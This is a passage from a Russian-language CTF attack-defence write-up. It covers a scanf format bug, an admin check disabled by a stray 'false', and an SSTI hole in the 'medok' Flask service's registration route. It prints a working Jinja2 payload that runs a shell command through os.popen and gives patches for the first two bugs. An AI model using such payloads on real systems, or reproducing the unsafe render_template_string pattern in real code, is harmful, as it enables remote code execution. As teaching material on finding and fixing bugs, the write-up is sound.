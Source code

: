 ```C
int position;

scanf("%lf", &position);
```

### Patch for Vuln 2

Для патча необходимо изменить `%lf` на `%d`

---

### Vuln 3: Wrong Admin Validation

В функции `main` при вводе команде `add_user` в условии присутствует лишнее `false`, в следствие чего проверка на роль `admin` работает некорректно

```C
if (!check_permissions(&current_user, "admin") && false) continue;
```

### Patch for Vuln 3

Для патча необходимо из условия убрать `false`.

---

## [0x03] Service 2: medok

**МедОК** — это инновационный медицинский сервис, который делает обращение за медицинской помощью быстрым, удобным и доступным. Мы стремимся упростить процесс взаимодействия с врачами,чтобы вы могли сосредоточиться на самом главном — своём здоровье. У очередной госкомиссии возник вопрос: "А стремятся ли они обеспечить безопасность?"

### Vuln 1: SSTI in registration

Сервис **medok** наделен уязвимостью SSTI (Server-Side Template Injection) в функции регистрации (**main.route('/register)**) файла **routes.py**, которая позволяет реализовать удаленное исполнение кода (RCE):

```python
message = """Пользователь %s успешно зарегистрирован.
<meta http-equiv="refresh" content="0;url={{ url_for('main.profile') }}"> """
return render_template_string(message % name)
```

Уязвимость обеспечивает функция render_template_string(), в которую производится передача данных без фильтрации. Таким образом при отправке следующего payload в функцию можно выполнить произвольный код:

```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```
